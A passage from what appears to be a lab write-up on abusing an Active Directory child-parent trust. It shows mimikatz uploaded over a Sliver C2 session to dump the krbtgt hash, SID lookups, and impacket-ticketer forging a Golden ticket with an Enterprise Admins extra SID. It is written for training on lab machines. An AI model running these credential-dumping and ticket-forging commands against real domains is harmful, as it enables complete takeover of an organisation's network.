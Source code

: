 This also means that we can create a Golden ticket through Kerberos that can be used across both domains. For context, a Golden ticket is a forged TGT, which is signed by the respective domain's `krbtgt` service account. This ticket can be used to impersonate any user, on any service, to every machine on the domain (or within the domain trust!). What also makes this incredibly powerful is that the credentials are never changed automatically. This means that if you have the `krbtgt` AES or NTLM hash, you can essentially perform almost any domain attack that you'd like (such as `dcsync` as an example).

In order to exploit the domain trust, we'll need three different things: 
* The `NTLM` of the `krbtgt` domain object.
* The `LAB` domain object SID.
* The `TRUSTED` domain object SID for the `Enterprise Admins` group.

In order to get all three of those, we can use `mimikatz` to dump all of this information. Generally we'd want to try and get `mimikatz` past AV by utilizing a C2 or by process injection, however we won't need to do this since Defender is not enabled for this chain.

# Golden Ticket to DC2

Thus, we can just drop `mimikatz` to disk and run it through the DC. https://github.com/ParrotSec/mimikatz

```
sliver > upload mimikatz.exe

C:\Users\cpowers\Documents> .\mimikatz.exe "privilege::debug" "lsadump::lsa /user:krbtgt /patch" "exit"
```

This gives us the `krbtgt` NTLM hash as well as the `LAB` domain SID.
In order to get the domain SID of the `TRUSTED` domain, we can use a built-in PowerShell cmdlet call `Get-ADGroup`.

```
PS C:\Users\cpowers\Documents> Get-ADGroup -Filter {name -eq "Enterprise Admins"} -Server trusted.vl
```

Try not to do this through `Evil-WinRM`, I ran into some domain resolution issues and instead found better luck by running it through a reverse shell.
We now have the following information in order to build our Golden ticket.

```
NTLM Hash     - [...snip...]
LAB SID       - S-1-5-21-2241985869-2159962460-1278545866
TRUSTED SID   - S-1-5-21-3576695518-347000760-3731839591-519
Target Domain - trusted.vl

> impacket-ticketer -nthash [...snip...] -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 -domain lab.trusted.vl Administrator
```

This saves our Golden ticket as a new file called `Administrator.ccache`. We'll need to set this as a global variable on our Kali machine to use this to authenticate with Kerberos on the parent domain.

